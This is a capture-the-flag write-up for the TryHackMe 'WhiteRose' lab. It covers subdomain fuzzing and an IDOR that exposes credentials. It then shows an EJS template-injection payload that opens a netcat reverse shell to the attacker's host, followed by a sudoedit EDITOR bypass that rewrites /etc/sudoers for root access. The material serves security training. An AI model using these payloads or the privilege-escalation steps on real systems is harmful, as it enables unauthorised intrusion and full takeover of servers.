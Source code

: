 ```yaml
---
title: WhiteRose
published: 2024-12-01
description: 'This challenge is based on the Mr. Robot episode "409 Conflict". Contains spoilers!'
image: './WhiteRose-Images/cover.jpg'
tags: ['Web',"ESJ","Sudoedit CVE", "PrivSec" ,"Server side template injection RCE"]
category: 'TryHackMe'
draft: false 
---
```


## Enumeration

- lets try scanning this web app
```sh
➜ nmap -sVC cyprusbank.thm 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-21 02:53 EST
Nmap scan report for cyprusbank.thm (10.10.231.114)
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 470.08 seconds
```

>  - Port 22 :
    22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
    (Ubuntu Linux; protocol 2.0)
>  - Port 80 :
    80/tcp open http nginx 1.14.0 (Ubuntu)

Let’s check the HTTP port ( port number 80 ) by going to →
When trying to access Port 80 ( http://whiterose.thm )
We are redirected to a new URL ( http://cyprusbank.thm )

```c
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.231.114   cyprusbank.thm
```

> Let’s do a Sub-Domain Brute Force ( FFUF )
```sh
➜ ffuf -u http://cyprusbank.thm/ -H "HOST: FUZZ.cyprusbank.thm" -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt -fw 1    


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm/
 :: Wordlist         : FUZZ: /usr/share/wordlists/amass/subdomains-top1mil-5000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

admin                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 99ms]
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 99ms]
:: Progress: [5000/5000] :: Job [1/1] :: 37 req/sec :: Duration: [0:00:20] :: Errors: 1 ::
```

> - Now after adding the Sub-Domain entry to /etc/hosts
> - Let’s check the page →

Can we use these credentials → ```Olivia Cortez : olivi8``` on this page ?
Let’s find out ..

## IDOR BUG

   - In the Message section we see the ending URL has a number
   - The vulnerability we can try here is called Insecure Direct Object Reference **(IDOR)**. This occurs when an application exposes a reference to an internal object (like a database record or file) directly in the URL. If there are no proper access controls or authorization checks, attackers can manipulate these references (in your case, changing the c parameter in the URL) to access resources they’re not authorized to view.

   - In this case , changing ```?c=1, ?c=2, etc.,``` might reveal different messages or records without proper permission checks, allowing unauthorized access to sensitive data. IDOR vulnerabilities are part of the broader Broken Access Control category in the OWASP Top 10.
![IDOR Picture](./WhiteRose-Images/idor.png)

Voila ! We found credentials on ?/c=8 for another User named →
```Gayle Bev```

## Exploitation

> We are able to now access the Settings page as User → Gayle Bev

  -  In the customer settings page there are two entries →
  - Enter a Customer Name & Enter a New Password

> Now keeping in mind that there are a lot of Customer names in the home page i tried entering the Individual Name and tried entering a New Password ,
> so that i can use these credentials to log into to that account ,
> Just like we did earlier , 
> but it doesn’t work that way .

> Time to use our Favourite tool **→ Burp Suite**

  -  Sending the request to Burpsuite as ```user:pass → admin:admin```
  -  User and Password can be set to anything ,
  -  Let’s get our request to Repeater in Burp Suite

![JS Picture](./WhiteRose-Images/js.png)

We found /home/web/app/views/settings.ejs
The file path ```/home/web/app/views/settings.ejs``` likely points to an EJS (Embedded JavaScript) template file used in a **Node.js** or **Express.js** web application.

   - After doing a little research i found a ```EJS SSTI vulnerability``` →
[EJS, Server side template injection RCE (CVE-2022-29078) - writeup](https://eslam.io/posts/ejs-server-side-template-injection-rce/?source=post_page-----972ee9129fe2--------------------------------)

> - in this PoC we are using port 1337 , but for this writeup i will be using port 1234 for the reverse shell , you can continue with the default one if you want .
> - For this case replacing the reverse shell used in ```PoC → nc -e sh IP-address PORT```by that of BusyBox from [revshells.com](https://www.revshells.com/) gave us the reverse shell successfully
```sh
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc [IP] [PORT] -e sh');s
```
![EJS Picture](./WhiteRose-Images/ejs.png)

We then checked the terminal and confirmed that we received a connection back as the user “web.” The next step was to stabilize the shell.
```sh
➜  CTF-Writeups nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.21.102.133] from (UNKNOWN) [10.10.0.0] 54174
python3 -c "import pty; pty.spawn(\"/bin/bash\")"
web@cyprusbank:~/app$ export TERM=xterm
export TERM=xterm
web@cyprusbank:~/app$ ^Z
[1]  + 8530 suspended  nc -lnvp 1337
➜  CTF-Writeups stty raw -echo; fg
[1]  + 8530 continued  nc -lnvp 1337
web@cyprusbank:~/app$
```
## Privilege Escalation
- We begin by listing the available sudo privileges for the current user using the ```sudo -l``` command. 
- Additionally, we check the version of sudoedit to identify any potential vulnerabilities. 
- Upon inspection, we discover that the sudo version is vulnerable to [CVE-2023-22809](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/?source=post_page-----972ee9129fe2--------------------------------). 
- This vulnerability allows us to bypass restrictions and gain the ability to read or edit any file by manipulating the ```EDITOR variable```.
```sh
web@cyprusbank:~/app$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
web@cyprusbank:~/app$ export EDITOR="vim -- /etc/sudoers"
web@cyprusbank:~/app$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
> - Once in vi, press i to enter insert mode and edit the file.
> - Remove the following line from the **/etc/sudoers** file:
> -  ```web ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm```
> - Replace the following line:
 ```web ALL=(root) NOPASSWD: ALL```

![Sudo Picture](./WhiteRose-Images/sudo.png)

> - Now, we can run sudo commands without needing to provide the root password. Use ```sudo su``` to switch to the root user.

```sh
sudoedit: --: editing files in a writable directory is not permitted
2 files to edit
sudoedit: /etc/nginx/sites-available/admin.cyprusbank.thm unchanged
web@cyprusbank:~/app$ sudo su
root@cyprusbank:/home/web/app# ls -la
ls -la
total 40
drwx------  6 root root 4096 Apr  4  2024 .
drwxr-xr-x 23 root root 4096 Jul 12  2023 ..
lrwxrwxrwx  1 root root    9 Jul 16  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Jul 16  2023 .cache
-rwxr-xr-x  1 root root  156 Apr  4  2024 clean.sh
drwx------  3 root root 4096 Jul 16  2023 .gnupg
drwxr-xr-x  3 root root 4096 Jul 16  2023 .local
drwxr-xr-x  5 root root 4096 Apr  4  2024 .pm2
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   21 Jul 15  2023 root.txt
```
**GOOD LUCK...**

